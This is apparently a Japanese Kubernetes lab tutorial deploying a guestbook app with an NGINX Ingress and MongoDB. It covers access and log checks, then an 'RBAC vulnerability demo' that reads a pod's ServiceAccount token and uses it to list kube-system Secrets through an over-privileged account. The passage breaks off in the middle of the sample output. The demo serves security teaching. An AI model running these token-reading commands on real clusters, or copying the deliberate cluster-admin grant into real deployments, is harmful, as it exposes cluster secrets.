 
### 3. ブラウザでアクセス

```powershell
# Ingress Controller External IP取得
$INGRESS_IP = kubectl get svc -n ingress-nginx ingress-nginx-controller -o jsonpath='{.status.loadBalancer.ingress[0].ip}'

# ブラウザで開く
Start-Process "http://$INGRESS_IP"
```

**期待される動作**:

- ✅ ゲストブック UI が表示される
- ✅ メッセージ投稿が可能
- ✅ 投稿したメッセージが画面に表示される（MongoDB に保存されている）

---

### 4. トラフィックフロー検証

```powershell
# Ingress Controllerログで確認
kubectl logs -n ingress-nginx deployment/ingress-nginx-controller --tail=20

# 出力例（アクセスログ）:
# xx.xx.xx.xx - - [30/Oct/2025:13:45:00 +0000] "GET / HTTP/1.1" 200 1234 "-" "Mozilla/5.0..."
# xx.xx.xx.xx - - [30/Oct/2025:13:45:05 +0000] "POST /message HTTP/1.1" 302 0 "http://..."

# アプリPodログで確認
kubectl logs -l app=guestbook --tail=10

# 出力例:
# [2025-10-30 13:45:05] POST /message - User submitted message
# [2025-10-30 13:45:05] ✅ MongoDB接続成功
# [2025-10-30 13:45:05] Message saved to MongoDB
```

**検証ポイント**:

- ✅ Ingress Controller でリクエストを受信（アクセスログに記録）
- ✅ アプリ Pod にリクエストが転送される
- ✅ MongoDB にデータが保存される

---

### 5. RBAC 脆弱性デモ

```powershell
# Pod内からKubernetes APIにアクセス（cluster-admin権限で）
$POD_NAME = kubectl get pods -l app=guestbook -o jsonpath='{.items[0].metadata.name}'

kubectl exec $POD_NAME -- sh -c "
  # ServiceAccount Tokenを取得
  TOKEN=\$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)

  # Kubernetes APIにアクセス
  curl -k -H \"Authorization: Bearer \$TOKEN\" https://kubernetes.default.svc/api/v1/namespaces/kube-system/secrets
"

# 出力例（kube-system namespace のSecretsが取得できる）:
# {
#   "kind": "SecretList",
#   "items": [
#     {
```